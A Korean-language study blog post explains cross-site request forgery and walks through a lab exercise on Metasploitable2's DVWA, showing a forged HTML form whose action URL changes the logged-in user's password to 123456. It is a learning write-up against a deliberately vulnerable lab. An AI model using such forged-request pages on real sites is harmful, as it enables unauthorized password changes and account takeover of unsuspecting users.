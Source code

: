 ```yaml
---
title:  "CSRF"
excerpt: ""
categories: security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```


#### CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)
* * *
- 공격 대상 : webserver
- Client의 권한을 이용해서 위조된 요청을 web server에 보내는 공격
- 대표적인 사례 : 자동 댓글달기, 좋아요 눌러지기, 비밀번호 변경, 회원 탈퇴 요청, 회원 승급 요청 등등
- 사용자들이 원하지 않았지만 스크립트의 소스 안에 공격자의 의도가 포함되어 있는 상태로 웹서버에 요청이 보내짐
- OWASP 2013년 버전에서는 8위였으나, 2017 버전에는 순위 밖으로 내려감(대응 방법이 많이 나와있어서 심각 수준이 내려감)

#### Metsploitable2 DVWA 실습
* * *
1. vwware-> metasploitable2 실행
2. web browser에서 metasploitable2의 아이피로 접근
3. dvwa 실행 admin / password
4. CSRF 탭에서 비밀번호 변경
![picture 12](/assets/images/20220517-092020.png){: .center}  
5. 개발자 도구에서 46~52 라인 확인
![picture 13](/assets/images/20220517-092404.png){: .center}  

```html
<form action="#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
6. 비밀번호 변경했을 때 주소를 복사해서 #에 다가 삽입

```html
<form action="http://192.168.5.128/dvwa/vulnerabilities/csrf/?password_current=password&password_new=123456&password_conf=123456&Change=Change#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```

7. 위 내용을 html 파일로 만들어서 실행.

![picture 14](/assets/images/20220517-093611.png){: .center}

1. change를 누르면 비밀번호 변경되고, 로그인된 상태로 웹사이트로 진입
2. logout 하고 변경된 비밀번호로 로그인 되는지 확인